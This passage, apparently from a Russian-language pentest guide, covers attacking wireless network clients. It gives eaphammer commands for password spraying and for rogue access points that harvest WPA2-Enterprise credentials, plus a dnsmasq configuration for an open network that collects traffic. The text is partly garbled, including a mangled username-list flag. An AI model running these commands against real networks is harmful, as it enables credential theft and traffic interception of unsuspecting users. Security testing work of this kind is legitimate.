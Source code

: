 ```
**./eaphammer --eap-spray \
    --interface-pool wlan0 wlan1 \
    --essid название_ТД \
    --password значение_пароля \
    --user-списокпользователей.txt**
```


Что можно выжать из атак на клиентов беспроводных сетей:  
Учетные данные и чувствительную информацию, возможность обхода процесса аутентификации, атаки типа отказ в использовании.



## Примеры атак

Здесь в основном будут разобраны примеры с использованием eaphammer, более задокументированного и актуального ПО для анализа защищенности Enterprise WPA2 не нашлось.
Флаги для работы с диапазоном 5Ghz у eaphammer взято из Wiki проекта
**The primary modes you'll most likely need to concern yourself with are:**

802.11b - Older specification, 2.4GHz only
802.11a - Used for creating 5GHz access points
802.11g - Used for creating 2.4GHz access points
802.11n - Can be used on both the 2.4GHz and 5GHz spectrums.

```
# --hw-mode flag omitted, 2.4GHz channel selected. EAPHammer will automatically set hw_mode to g
./eaphammer -i wlan0 \
	-e safewifis \
	--creds \
	--channel 2

# --hw-mode flag omitted, 5GHz channel selected. EAPHammer will automatically set hw_mode to a
./eaphammer -i wlan0 \
	-e safewifis \
	--creds \
	--channel 36
```


**Простая открытая сеть для сбора трафика с доступом в интернет**  

``apt-get  install dnsmasq
vi/etc/dnsmasq.conf``

Пишем это в конфиг
```
interface=wlan0
dhcp-authoritative
dhcp-range=192.168.1.2,192.168.1.30,255.255.255.0,12h
dhcp-option=3,192.168.1.1
dhcp-option=6,192.168.1.1
server=8.8.8.8
log-queries
log-dhcp
listen-address=127.0.0.1
```
